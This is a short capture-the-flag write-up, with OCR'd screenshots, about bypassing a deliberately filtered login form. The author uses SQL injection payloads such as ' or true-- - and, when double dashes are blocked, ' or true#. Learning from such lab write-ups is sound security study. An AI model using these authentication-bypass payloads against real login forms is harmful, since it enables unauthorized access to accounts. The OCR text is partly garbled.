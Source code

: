 # SQL Prevention-101
> Just try to hack my login with account "admin", I've taken all the precautions that I can...

## About the Challenge
We were given a plain website and we need to find the flag there. In the website there is a simple form to login to the website


[Image extracted text: Welcome my website
I have
something cool hidden in the username "admin" , but
never get in _
Username:
Password:
Submit
you'IL]


## How to Solve?
At first i tried to input simple SQL injection payload to bypass admin panel

```
Username: ' or true-- -
Password: 
```

And then website will return like this


[Image extracted text: Welcome my website
I have something cool hidden in the username "admin" , but you'Il never get in:
No double dashes! I knew you would
an
SQL injection__
Username:
Password:
Submit
try]


So we can't user `-- -` as SQL comment, i tried the alternative, for example `#`. So the final payload is

```
Username: ' or true#
Password: 
```

And then we will get the flag


[Image extracted text: Welcome my website
I have
something cool hidden in the username "admin" , but
never
In: . J
flag{curse_you_mysql'}
Username:
Password:
Submit
you'[
get_]


```
flag{curse_you_mysql!}
```